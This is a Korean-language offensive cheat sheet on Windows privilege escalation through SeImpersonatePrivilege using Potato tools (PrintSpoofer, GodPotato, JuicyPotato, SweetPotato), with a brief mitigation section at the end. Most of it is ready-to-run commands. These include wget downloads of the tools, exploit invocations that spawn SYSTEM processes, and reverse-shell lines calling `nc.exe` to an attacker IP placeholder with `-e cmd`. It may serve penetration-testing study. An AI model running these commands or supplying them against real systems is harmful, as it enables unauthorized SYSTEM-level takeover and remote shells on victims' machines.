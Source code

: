 ```yaml
---
layout: page
title: SeImpersonatePrivilege
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# SeImpersonate / SeAssignPrimaryToken 권한 상승 가이드

`SeImpersonatePrivilege`와 `SeAssignPrimaryTokenPrivilege`는 Windows에서 가장 흔하게 발견되고 성공적으로 악용되는 권한 상승 벡터 중 하나입니다. 웹 서버(IIS)나 데이터베이스(MSSQL) 같은 서비스 계정이 이 권한을 보유한 경우가 많으며, 이를 통해 `NT AUTHORITY\SYSTEM`의 권한을 탈취할 수 있습니다.

### **취약점 원리**

이 권한들은 특정 프로세스가 다른 사용자(보안 주체)의 보안 토큰을 훔치거나 생성하여 스레드에 적용할 수 있게 해줍니다. 공격자는 이 권한을 가진 현재 세션에서, 로컬 시스템의 `SYSTEM` 계정이 인증을 시도하도록 유도하는 특정 RPC/DCOM 통신을 트리거합니다. 그 후, `SYSTEM`이 콜백 연결을 시도할 때 그 연결로부터 보안 토큰을 가로채, 해당 토큰으로 새로운 프로세스(예: `cmd.exe`)를 생성하여 `SYSTEM` 권한을 획득합니다. 이 일련의 과정을 자동화한 것이 바로 "Potato" 시리즈 공격입니다.

---

### **1. 취약점 식별**

- **목표:** 현재 사용자가 해당 권한을 보유하고 있는지 확인합니다.

```powershell
whoami /priv
```

- **확인 사항:** 출력된 목록에 `SeImpersonatePrivilege` 또는 `SeAssignPrimaryTokenPrivilege`가 `Enabled` 상태로 있는지 확인합니다.

---

### **2. 주요 공격 도구**

다양한 "Potato" 도구들이 있지만, 대상 Windows 버전에 따라 성공률이 다릅니다. 최신 도구를 먼저 시도하는 것이 좋습니다.

#### **PrintSpoofer (가장 추천)**
- **특징:** 최신 Windows 버전(Windows 10, Server 2019/2022)에서도 안정적으로 작동하는 가장 현대적이고 효과적인 도구입니다.
- **[GitHub 링크](https://github.com/itm4n/PrintSpoofer)**

```powershell
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
# -i: 대화형 모드로 실행
# -c: 실행할 명령어
./PrintSpoofer64.exe -i -c cmd.exe

# If you don't, then try (32, 64 둘다 시도해보기)
./PrintSpoofer64.exe -c "c:\windows\tasks\nc.exe [kali_ip] 443 -e cmd"
```

#### **GodPotato**
- **특징:** PrintSpoofer와 마찬가지로 최신 Windows 환경을 지원하는 또 다른 강력한 도구입니다.
- **[GitHub 링크](https://github.com/BeichenDream/GodPotato)**

```powershell
# -cmd: 실행할 명령어 (예: nc.exe를 이용한 리버스 셸 연결)
./GodPotato-NET4.exe -cmd "C:\Windows\tasks\nc.exe <attacker_ip> 4444 -e cmd.exe"

./Godpotato.exe -cmd cmd.exe

./GodPotato-NET4.exe -cmd "powershell.exe -C JABjAGwAaQBletc"
```

#### **JuicyPotato / RottenPotato**
- **특징:** 구형 Windows 버전(Windows 7/8/10, Server 2008/2012/2016)에서 주로 사용되던 고전적인 방식입니다. 특정 DCOM 객체의 CLSID를 필요로 하며, 최신 OS에서는 작동하지 않을 가능성이 높습니다.
- **[JuicyPotato GitHub 링크](https://github.com/ohpe/juicy-potato)**
- https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505
- Useful reference video of attack : https://youtu.be/dXotJLV6jj4?t=1848
- Run systeminfo on box and then find the proper CLSID from here : https://github.com/ohpe/juicy-potato/tree/master/CLSID/

```powershell
# -t *: 프로세스 생성 방식 (t: create process, u: with token, p: with program)
# -l: 리스닝 포트
# -p: 실행할 프로그램
# -c: 사용할 DCOM CLSID
JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -l 1337 -c "{...특정_CLSID...}"

./JuicyPotatao.exe -t * -l 1337 -p "powershell.exe -e JABjetc"
```

#### **SweetPotato**
- https://github.com/CCob/SweetPotato
- https://github.com/uknowsec/SweetPotato/blob/master/README.md

```powershell
wget https://github.com/uknowsec/SweetPotato/raw/refs/heads/master/SweetPotato-Webshell-new/bin/Release/SweetPotato.exe

./SweetPotato.exe -p test.bat
```

---

### **3. 방어 (Mitigation)**

- **최소 권한의 원칙:** IIS 애플리케이션 풀 계정, MSSQL 서비스 계정 등 일반적인 서비스 계정에서 `SeImpersonatePrivilege`와 `SeAssignPrimaryTokenPrivilege`를 제거합니다. 이 권한들은 대부분의 서비스 운영에 필수적이지 않습니다.
- **가상 계정 사용:** 최신 IIS/MSSQL 버전에서 기본적으로 사용하는 가상 계정(Virtual Account)은 이러한 권한을 가지지 않으므로, 가급적 가상 계정을 사용하는 것이 안전합니다.
